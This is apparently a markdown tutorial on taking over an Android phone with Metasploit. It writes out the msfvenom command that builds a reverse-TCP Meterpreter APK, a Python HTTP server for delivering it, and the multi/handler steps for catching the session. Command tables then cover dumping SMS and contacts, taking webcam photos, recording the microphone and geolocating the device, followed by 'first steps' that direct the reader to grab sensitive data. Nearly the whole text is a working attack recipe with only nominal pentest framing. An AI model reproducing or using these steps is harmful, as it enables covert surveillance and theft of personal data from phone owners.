 
## Android Pentest Msfvenom


**CHECK IP ADDRESS**  
  
```
ifconfig
```


**CREATING PAYLOAD WITH MSFVENOM**

The payload is an integral part of the attack that harms the victim. Attack vectors such as viruses, worms, and malware may contain multiple harmful payloads.

Metasploit payloads are divided into three types:

**Single:** A single file is very small and aims to establish a certain connection, and then enter the next level.

**Staged:** This is the payload that an attacker can use to upload larger files to the victim’s system.  
  
**Stages:** A stages is a payload component loaded using the stager module. The payload stages provides advanced features with no size limitation, such as meterpreter and VNC injection.  
  
Commands to create payload:  

```
msfvenom -p android/meterpreter/reverse\_tcp LHOST=192.168.2.21 LPORT=4444 R -o payload.apk
```
  
- This command will create a malicious file called `payload.apk`


```
python3 -m http.server 1337
```

- Command will start a http server on port `1337`


**START METASPLOIT FRAMEWORK**  
  
Metasploit is one amongst the foremost powerful and widely utilized tools for penetration testing. 

The Metasploit Project could be a pc security project that has data regarding security vulnerabilities and aids in penetration testing and IDS signature development.

The Metasploit Framework can lead us to take advantage of the payload that is generated


**EXPLOITATION  

While exploitation, We need to use exploit/multi/handler to handle the msf process. The multi/handler handles the exploit for us and presents us our shell.

```
msf6 > use exploit/multi/handler  
```

Then we have to set the PAYLOAD which is android/meterpreter/reverse\_tcp as we have to gain access of android and reverse tcp because the tcp port is open on internet. 

```
msf6exploit(multi/handler)>set payload android/meterpreter/reverse\_tcp
```

Just set the LHOST and LPORT just to exploit the apk on the host machine. 

```
msf6 exploit(multi/handler) > set LHOST 192.168.2.21 
```


```
msf6 exploit(multi/handler) > show options  
```

Lastly, Exploit payload.  

```
msf6 exploit(multi/handler) > exploit
```


**GAINED ACCESS**: (Meterpreter Session Opened)  
  
Meterpreter is a Metasploit attack payload that provides an interactive shell from which an attacker can explore the target machine and execute code.
  
**COMMAND TO INTERNACT WITH SESSIONS:**  

```
meterpreter > help
```
 
  - to know all the commands


```
meterpreter > app\_list
```

- command to see the apps installed on android device

```
meterpreter > app\_uninstall 
```

- command to uninstall the app

  ---

### Basic Commands

|Command|Description|
|---|---|
|`help`|Show all available Meterpreter commands|
|`sysinfo`|Get device information (OS version, device model, etc.)|
|`getuid`|Show current user ID|
|`ifconfig`|Show network interfaces|
|`netstat`|Show active network connections|

---

### File System Interaction

|Command|Description|
|---|---|
|`ls`|List files in current directory|
|`cd <dir>`|Change directory|
|`download <file>`|Download file from the device|
|`upload <file>`|Upload a file to the device|
|`rm <file>`|Delete a file|
|`pwd`|Print working directory|

---

### Android-Specific Features

(Meterpreter supports Android-specific extensions)

|Command|Description|
|---|---|
|`webcam_list`|List available cameras|
|`webcam_snap`|Take a photo using the camera|
|`record_mic`|Record audio from the microphone|
|`dump_sms`|Dump SMS messages|
|`dump_contacts`|Dump contact list|
|`check_root`|Check if the device is rooted|
|`shell`|Drop into a standard Linux shell on the device|
|`geolocate`|Get GPS location (if enabled)|

---

### Gathering Data

|Command|Description|
|---|---|
|`app_list`|List installed apps|
|`app_run <package>`|Run an installed app|
|`app_install <apk>`|Install an APK|
|`app_uninstall <package>`|Uninstall an app|

---

### Network and Privilege Escalation

|Command|Description|
|---|---|
|`portfwd`|Forward ports through the session|
|`route`|View or modify routing table|
|`run post/multi/recon/local_exploit_suggester`|Suggest potential exploits based on system info|

---
### **Exiting**

|Command|Description|
|---|---|
|`background`|Send session to background (can interact later with `sessions -i`)|
|`exit`|Close session|

---

###  **Recommended First Steps After Getting Session**

1. `sysinfo` – Understand what device you’re dealing with.
    
2. `check_root` – Determine privileges.
    
3. `dump_contacts` / `dump_sms` – Grab sensitive data.
    
4. `webcam_snap` / `record_mic` – Gather intelligence.
    
5. `shell` – Drop into native shell for advanced control.
    

---

If you'd like to automate things or gather everything at once, you can also run post modules like:

```bash
run post/android/gather/enum_apps
run post/android/gather/contacts
run post/android/gather/location
```


-----


